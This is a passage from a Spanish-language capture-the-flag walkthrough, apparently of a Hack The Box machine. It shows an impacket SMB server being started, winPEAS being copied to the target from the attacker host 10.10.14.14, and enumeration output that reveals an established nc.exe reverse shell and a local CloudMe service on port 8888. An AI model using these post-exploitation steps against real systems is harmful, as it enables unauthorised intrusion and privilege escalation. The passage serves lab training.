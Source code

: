 ```bash
sudo impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{: .nolineno}

```bash
copy \\10.10.14.14\smbFolder\winPEASx64.exe
        1 file(s) copied.
```
{: .nolineno}


Dentro de la información revelada, se constata que el servicio de **CloudMe** está en ejecución de forma local en el puerto **8888**.

```bash
 Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

 TCP        0.0.0.0               135           0.0.0.0               0               Listening         948             svchost
 TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
 TCP        0.0.0.0               5040          0.0.0.0               0               Listening         4700            svchost
 TCP        0.0.0.0               7680          0.0.0.0               0               Listening         6184            svchost
 TCP        0.0.0.0               8080          0.0.0.0               0               Listening         7712            C:\xampp\apache\bin\httpd.exe
 TCP        0.0.0.0               49664         0.0.0.0               0               Listening         528             wininit
 TCP        0.0.0.0               49665         0.0.0.0               0               Listening         1044            svchost
 TCP        0.0.0.0               49666         0.0.0.0               0               Listening         1368            svchost
 TCP        0.0.0.0               49667         0.0.0.0               0               Listening         2248            spoolsv
 TCP        0.0.0.0               49668         0.0.0.0               0               Listening         672             services
 TCP        0.0.0.0               49669         0.0.0.0               0               Listening         680             lsass
 TCP        10.10.10.198          139           0.0.0.0               0               Listening         4               System
 TCP        10.10.10.198          8080          10.10.14.14           40262           Established       7712            C:\xampp\apache\bin\httpd.exe
 TCP        10.10.10.198          8080          10.10.14.14           47514           Close Wait        7712            C:\xampp\apache\bin\httpd.exe
 TCP        10.10.10.198          8080          10.10.14.14           57706           FIN Wait 2        7712            C:\xampp\apache\bin\httpd.exe
 TCP        10.10.10.198          49760         10.10.14.14           1234            Established       3248            C:\xampp\htdocs\gym\upload\nc.exe
 TCP        127.0.0.1             3306          0.0.0.0               0               Listening         8056            C:\xampp\mysql\bin\mysqld.exe
 TCP        127.0.0.1             8888          0.0.0.0               0               Listening         4588            CloudMe

 Enumerating IPv6 connections
```
